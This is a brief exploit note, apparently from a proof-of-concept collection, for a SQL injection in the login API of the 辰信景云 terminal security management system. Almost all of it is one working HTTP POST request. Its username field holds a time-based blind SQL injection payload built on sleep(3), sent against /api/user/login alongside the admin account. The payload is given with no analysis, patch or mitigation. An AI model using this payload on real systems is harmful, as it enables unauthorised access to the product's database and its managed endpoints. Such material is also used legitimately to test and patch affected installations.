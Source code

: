 ## 辰信景云终端安全管理系统 login SQL注入漏洞

```

POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='

```
